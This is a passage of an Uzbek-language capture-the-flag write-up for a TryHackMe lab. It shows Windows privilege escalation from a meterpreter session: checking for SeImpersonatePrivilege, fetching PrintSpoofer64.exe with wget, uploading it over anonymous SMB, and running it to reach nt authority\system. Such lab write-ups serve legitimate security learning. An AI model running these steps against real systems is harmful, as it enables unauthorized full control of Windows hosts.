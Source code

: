 

Biz powershelldan cmdga, cmddan esa meterpreterga o'tishimiz kerak. Ya'ni exit va yana exit teramiz.

**getprivs** — meterpreter buyrug'i orqali huquqlarimizni ko'ramiz.

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```

**SeImpersonatePrivilege** — ushbu huquq bizda bor ekan.  Bu huquq yordamida biz tizimda boshqa foydalanuvchi nomidan ishlay olamiz,  **SYSTEM** darajasiga chiqishingiz mumkin.



PrintSpoofer64.exe eksplatatsiyasini o'zimizni kompyuterga yuklab olamiz va uni serverga yuklaymiz.

```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

Endi esa serverga yuklaymiz.

```
╭─mete   󰉖 ~/THM/THM-LABS/0106-2025
╰─ ❯❯ smbclient //10.10.31.168/nt4wrksv -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer64.exe
putting file PrintSpoofer64.exe as \PrintSpoofer64.exe (39.3 kb/s) (average 39.3 kb/s)
smb: \> exit

```



Meterpreterdan **shell** deb terib terminalni ochamiz va yuklagan joyimizga kiramiz.
```
cd c:/inetpub/wwwroot/nt4wrksv
```

Ishga tushiramiz.
```
PrintSpoofer64.exe -i -c powershell.exe
```
So'ngra **whoami** buyrug'i orqali kim ekanimizni tekshiramiz.
```
PS C:\Windows\system32> whoami
nt authority\system
```
